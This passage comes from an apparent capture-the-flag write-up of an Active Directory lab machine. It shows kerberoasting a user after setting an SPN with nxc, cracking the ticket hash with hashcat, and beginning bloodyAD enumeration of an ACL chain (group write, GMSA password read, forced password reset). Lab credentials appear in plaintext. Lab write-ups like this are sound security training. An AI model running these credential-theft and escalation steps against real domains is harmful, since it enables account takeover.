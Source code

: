 **Output**
```
[+] Alfred's servicePrincipalName has been updated
```

After giving him an `SPN` he should now be `kerberoastable`, so let's `kerberoast` him

**Command**
```bash
nxc ldap tombwatcher.htb -u henry -p 'H3nry_987TGV!' --kerberoasting kerberoast.txt
```

**Output**
```
LDAP        10.129.252.26   389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:tombwatcher.htb)
LDAP        10.129.252.26   389    DC01             [+] tombwatcher.htb\henry:H3nry_987TGV! 
LDAP        10.129.252.26   389    DC01             [*] Skipping disabled account: krbtgt
LDAP        10.129.252.26   389    DC01             [*] Total of records returned 1
LDAP        10.129.252.26   389    DC01             [*] sAMAccountName: Alfred, memberOf: [], pwdLastSet: 2025-05-12 11:17:03.526670, lastLogon: <never>
LDAP        10.129.252.26   389    DC01             $krb5tgs$23$*Alfred$TOMBWATCHER.HTB$tombwatcher.htb\Alfred*$db394b4d389eac73e147f6b630e04a2f$275[REDACTED]
```

Using the `TGS` we just grabbed, let's attempt to crack his hash.

**Command**
```bash
hashcat -a 0 -m 13100 kerberoast.txt /usr/share/wordlists/rockyou.txt
```

**Output**
```
<SNIP>
$krb5tgs$23$*Alfred$TOMBWATCHER.HTB$tombwatcher.htb\Alfred*$db394b4d389eac73e147f6b630e04a2f$275da38153053e5c7470878a734c7fc424eebaa14256d61d00392071f83d34a[REDACTED]:[REDACTED]
</SNIP>
```

Success! We now have `alfred`'s credentials! `alfred`:`[REDACTED]`

# User
I've done some enumeration starting at a group I'd like to be a member of: `Remote Management Users`. Which has the member `John` whose owner can be written by `Sam`. `Sam`'s password can be forcibly changed by `ansible_dev$` whose `GMSA Password` can be read by `Infrastructure`. Our current user `Alfred` has the permission `WRITE_VALIDATED` on the `Infrastructure` group which allows us to add ourselves. This whole chain of `ACLs` can be read using `bloodhound` but I'll go over the enumeration commands I used to do it manually, as this is always good practice.

Let's start off by taking a look at the `Infrastructure` Group

**Command**
```bash
bloodyAD --host $TARGET -d $DOMAIN -u $USER -p $PASS get object --resolve-sd Infrastructure
```
